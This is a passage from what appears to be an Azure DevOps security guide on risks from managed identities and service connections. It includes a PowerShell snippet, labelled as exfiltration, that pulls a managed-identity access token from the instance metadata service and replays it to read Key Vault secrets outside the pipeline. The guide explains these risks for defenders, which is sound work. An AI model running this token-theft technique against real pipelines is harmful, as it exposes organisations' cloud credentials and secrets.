 - Managed service identities (MSI) are also affected in this scenario. PowerShell can be used to retrieve an access token from the “[Azure Instance Metadata Service](https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service?tabs=windows)” (on the self-hosted agent with assigned MSI):

    ```powershell
    # Exfiltration of access token to Azure Resource (KeyVault) from Managed identity in DevOps pipeline
    $response = Invoke-WebRequest -Uri 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net' -UseBasicParsing -Method GET -Headers @{Metadata="true"}
    $content = $response.Content | ConvertFrom-Json
    $AccessToken = $content.access_token
    
    # Replay of access token outside of the DevOps pieline:
    $secret = "https://$vaultName.vault.azure.net/secrets/$secretName/?api-version=7.0"
    $auth = "$($content.token_type) $($content.access_token)"
    Invoke-RestMethod -Method GET -Uri $secret -Headers @{ 'Authorization' = $auth }
    ```

    ![./media/serviceprincipals-ado/ServicePrincipals-ADO0.png](./media/serviceprincipals-ado/ServicePrincipals-ADO0.png)
    
### Using service connections outside of intended pipeline

RBAC design and implementation of ADO can be complex because of various level of roles, permissions and scopes. Therefore, it’s needed to prevent misconfiguration or weakness in posture management to prevent the following risks:
